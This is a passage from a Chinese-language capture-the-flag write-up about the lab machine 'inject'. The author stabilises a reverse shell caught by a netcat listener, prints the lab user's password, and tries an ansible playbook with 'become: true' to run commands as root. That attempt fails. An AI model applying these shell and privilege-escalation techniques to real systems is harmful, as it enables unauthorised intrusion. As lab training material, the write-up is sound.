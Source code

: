 所以我们可以在tasks目录里写入一个get shell的playbook？但是该怎么执行呢？

看了眼sudo也没有关于ansible的：
```bash
phil@inject:/opt/automation$ sudo -lS
sudo -lS
[sudo] password for phil: DocPhillovestoInject123
Sorry, user phil may not run sudo on localhost.
```

SUID也没有能利用的。

`ansible` 命令倒是能运行，但是跑起来会是root权限吗？——playbook里面的话倒是可以用 `become: true` 实现。

总之先写playbook吧。


### 升级为交互shell

在这之前，目前的非交互shell在使用vim的时候好像会怪怪的，将其转成交互shell：
```bash
phil@inject:/opt/automation/tasks$ which python python3
which python python3
/usr/bin/python3
phil@inject:/opt/automation/tasks$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<sks$ python3 -c 'import pty;pty.spawn("/bin/bash")'
phil@inject:/opt/automation/tasks$ export TERM=xterm
export TERM=xterm
phil@inject:/opt/automation/tasks$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                        
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

phil@inject:/opt/automation/tasks$ 
```

### 编写ansible playbook

先测试一下
```bash
- hosts: localhost
  tasks:
    - name: Run a command as root
      shell: "id > /tmp/test; chmod 777 /tmp/test"
      become: true
```

*一直用AWX，没怎么用过ansible的命令行……正当我看ansible的help时，我刚写的playbook就被删了……*

运行playbook，报错：
```bash
phil@inject:/opt/automation/tasks$ ansible-playbook test.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'

PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [Run a command as root] ***************************************************
fatal: [localhost]: FAILED! => {"changed": false, "module_stderr": "sudo: a password is required\n", "module_stdout": "", "msg": "MODULE FAILURE\nSee stdout/stderr for the exact error", "rc": 1}                                      

PLAY RECAP *********************************************************************
```